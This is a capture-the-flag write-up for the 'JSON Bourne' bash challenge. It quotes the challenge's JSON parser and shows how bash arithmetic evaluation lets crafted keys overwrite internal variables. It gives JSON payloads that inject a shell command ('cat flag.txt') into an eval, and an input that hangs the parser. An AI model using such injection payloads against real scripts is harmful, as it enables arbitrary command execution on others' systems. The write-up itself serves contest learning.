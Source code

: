 # JSON Bourne (misc, 200p, 46 solved) [bash script]


After looking carefully at the code and learning the bash scripting syntax, we found in parser.sh:

```
parseString() {
    local input=$1
    local i=$2
    local res=$3
    declare -Ag $res

    makeVar
    eval ${res}'[_type]=$var_name'
    makeKind "STRING" $var_name

    getString "$input" "$i" "$res"

    local task_i
    local result_str="${!res}"
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
}
```
in particular this line:

```
if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
```

after fuzzying around, we noticed that it allows arithmetic assignment, by providing as input this line:

```
{"task 1=12":"as"}
```

Then we used this vulnerability to rewrite  `_var_name_i`  in such a way that some new variables used in evals would be somehow "double referenced".

We ended up in :

```
["task _var_name_i=10","var_11","task _var_name_i=10",{"task _var_name_i=13":"=SHELL","var_10":"b"},"concat",{"ta":["ta","aT","task _var_name_i=10",{"task _var_name_i=13":"};cat flag.txt;{","var_12":"b"},"l00p"]}]
```

Which, after a more accurate analysis by @Zommiommy, could also be written as:

```
{"task _var_name_i=10":"};cat flag.txt;#
```

Surprisingly, changing the value of ` _var_name_i` could also cause the program to loop forever:
```
{"going":["down","task _var_name_i=10",{"the":"rabbit"},"hole"]}
```
